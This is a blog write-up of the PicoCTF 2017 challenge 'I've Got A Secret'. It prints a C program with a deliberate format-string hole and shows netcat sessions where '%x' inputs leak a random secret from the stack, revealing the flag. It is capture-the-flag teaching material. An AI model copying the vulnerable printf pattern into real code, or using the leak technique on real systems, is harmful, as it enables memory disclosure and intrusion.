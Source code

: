 ```yaml
---
layout:     post
title:      "PicoCTF - I've Got A Secret"
subtitle:   "Write-Ups"
date:       2017-04-17 0:00:00
author:     "W3ndige"
permalink: /:title/
category: PicoCTF 2017
---
```


<p>Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:10750.</p>

{% highlight c %}
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>

#define BUF_LEN 64
char buffer[BUF_LEN];

int main(int argc, char** argv) {
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd == -1){
        puts("Open error on /dev/urandom. Contact an admin\n");
        return -1;
    }
    int secret;
    if(read(fd, &secret, sizeof(int)) != sizeof(int)){
        puts("Read error. Contact admin!\n");
        return -1;
    }
    close(fd);
    printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);

    int not_secret;
    printf("Now tell my secret in hex! Secret: ");
    fflush(stdout);
    scanf("%x", &not_secret);
    if(secret == not_secret){
        puts("Wow, you got it!");
        system("cat ./flag.txt");   
    }else{
        puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    }

    return 0;
}
{% endhighlight %}

<p>We also have a small hint, telling us that it is vulnerable to format string exploit. From OWASP we can learn that. </p>

<p><i>The Format String exploit occurs when the submitted data of an input string is evaluated as a command by the application. In this way, the attacker could execute code, read the stack, or cause a segmentation fault in the running application, causing new behaviors that could compromise the security or the stability of the system.</i></p>

<p>Now let's try connecting, and providing the program with some random input. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
hello
hello
Now tell my secret in hex! Secret: hello
As my friend says,"You get nothing! You lose! Good day, Sir!"

{% endhighlight %}

<p>Exactly nothing happens. But we also now that our target is some value in hex format. Let's try to use format string exploit to get these numbers from a memory. It's possible by typing a few <b>%x</b>  parameters. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 37bcd63a
Now tell my secret in hex! Secret: f7fc7c20
As my friend says,"You get nothing! You lose! Good day, Sir!"
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 d2ad438b
Now tell my secret in hex! Secret: 8048792
As my friend says,"You get nothing! You lose! Good day, Sir!"
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 ffa0c668
Now tell my secret in hex! Secret: ffffdd34
As my friend says,"You get nothing! You lose! Good day, Sir!"
{% endhighlight %}

<p>See how the last value changes each time we run a program. Since we now that secret is generated using <b>urandom</b>, we can guess that that's it. Let's run one last time. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 26ef02ad
Now tell my secret in hex! Secret: 26ef02ad
1ba85d212f80746e0c61b8d45bc690b6
Wow, you got it!
{% endhighlight %}

<p>Another one! </p>
